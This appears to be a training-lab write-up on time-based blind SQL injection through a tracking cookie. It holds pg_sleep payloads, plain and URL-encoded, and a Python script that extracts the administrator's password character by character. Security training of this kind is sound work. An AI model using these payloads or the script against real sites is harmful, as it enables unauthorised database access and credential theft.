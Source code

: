 In this lab `Tracking Id` cookie is  vulnerable to `SQL Injection`.

You can check this using the following statements sending them with the value of `tracking id`: 
```sql
';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--     #This will late the response by 10sec
URL encoded : '%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

You can check this using the following statements sending them with the value of `tracking id` whether the username = 'administrator' exists or not: 
```sql
';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--     #Ir response comes after 10 sec, then username='administrator' exists
URL encoded : '%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--   
```

We can systematically determine the password for the given user `administrator` by sending a series of inputs to test the password one character at a time.
```sql
'||(SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), "+str(i)+", 1) = '" +d+"') THEN pg_sleep(5) ELSE NULL END)--
```

You can use the following script to find the password:
```python
import sys
import requests
import string 
import time

if len(sys.argv) != 2:
    print(f"USAGE: {sys.argv[0]} domain")
    sys.exit(1)

URL = sys.argv[1]

dic = string.ascii_letters+string.digits
response = requests.get(URL)
tracking_id = response.cookies["TrackingId"]
sess_cookie = response.cookies["session"]

def password(url):
    
    pwd = ""
    i = 1
    while(True):
        found_char = False
        print(f"Index : {i}")
        for d in dic:
            payload = tracking_id + "'||(SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), "+str(i)+", 1) = '" +d+"') THEN pg_sleep(5) ELSE NULL END)--"
            #print("payload",payload)
            start = time.time()
            response = requests.get(URL, headers={"Cookie":"TrackingId="+payload+"; session="+sess_cookie})
            end = time.time()

            delay = end-start
            if delay>=5:
                pwd += d
                print(pwd)
                found_char = True
                break
            time.sleep(1)
        i+=1
    
        if not found_char:
            print("Password : ",pwd)
            break

password(URL)
```
